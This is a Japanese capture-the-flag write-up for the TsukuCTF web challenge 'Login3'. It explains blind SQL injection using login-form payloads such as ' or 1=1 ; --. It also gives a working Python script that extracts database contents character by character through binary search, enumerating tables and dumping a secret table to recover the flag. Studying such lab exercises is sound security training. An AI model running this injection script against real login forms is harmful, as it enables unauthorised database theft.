 ```yaml
---
title: Login3
description: Blind SQL injection
author: rikuta0811_dash
genre: Web
solver: 9
point: 472
---
```


# Login 3

> 筑紫くんは、これなら情報が流出するはずがないと自信満々です。果たして...
>
> https://tsukuctf.sechack365.com/problems/login3
>
> ※ この問題では/problems/login3 以下のみを用います。 他の問題/problems/<name>などと混同しないよう注意してください。

Login 1 ~ 3 がセットで SQL injection の問題になっています。
Login3 では、Blind SQL injection というテクニックが要求されます。

Login 1, 2 と同様に、Username を `' or 1=1 ; --` としてログインすると、ログインには成功しますが、ユーザー名等は表示されません。したがって、SQL injection に対して脆弱ではあるものの、injection した SQL 文の結果を確認することができません。
ここで、Username を `' or 1=2 ; --`とすると、ログインできませんでしたと表示されます。ということは、`1=1`や`1=2`の部分に bool 値をとる式を与えれば、その結果は取得できるということです。これを積み重ねて DB 内の情報を抜く手法は Blind SQL injection と呼ばれます。

information_schema からの情報取得等の実行したい query に対して、「query の実行結果の i 文字目は ascii コードで x より大きいか?」という bool 値をとる query を送信し、その bool 値を見ることで、2 分探索で query 結果を取得していきます。流石に手動で入力するのは面倒くさいので、コードを書くことにします。

```blind.py
def _execAnyQuery_core(query, pos, mid):
    url = "https://tsukuctf.sechack365.com/problems/login3/login.php"

    #queryの pos文字目がasciiコードでmidより大きければtrue
    params={
        "name":"' or ascii(substring(({0}),{1},1))>={2} ; -- ".format(query,pos,mid),
        "password":"a"
    }
    page = requests.post(url, data=params)

    return "ようこそ" in page.text

def _execAnyQuery(query, pos):
    """
    2分探索でqueryの実行結果のpos文字目を取得する。
    """
    low = 0
    high = 256
    while high-low>1:
        mid = (high+low)//2
        if _execAnyQuery_core(query, pos, mid):
            low = mid
        else:
            high = mid
    return low

def execAnyQuery(query):
    i = 1
    while True:
        char = int(_execAnyQuery(query, i))
        if char==0:
            return
        print(chr(char), end="")
        i+=1

execAnyQuery("select version()")
# >> 8.0.26
```

あとは、login2 と同様にテーブルを取得していきます。

```blind.py
for i in range(100):
    execAnyQuery("select distinct table_name from information_schema.columns limit 1 offset {0}".format(i))
    print()
# urtla_secret_tsukushiというtableがあることがわかる。

for i in range(10):
    execAnyQuery("select distinct column_name from information_schema.columns where table_name = 'urtla_secret_tsukushi' limit 1 offset {0}".format(i))
    print()

for i in range(33):
    execAnyQuery("select secret from urtla_secret_tsukushi limit 1 offset {0}".format(i))
# urtla_secret_tsukushiテーブルがidとsecretのカラムを持つことがわかる。

for i in range(33):
    execAnyQuery("select secret from urtla_secret_tsukushi limit 1 offset {0}".format(i))
#フラグが表示される。
```

フラグは

```txt
TsukuCTF{U_Are_Geni0us_T$UKUSH1}
```
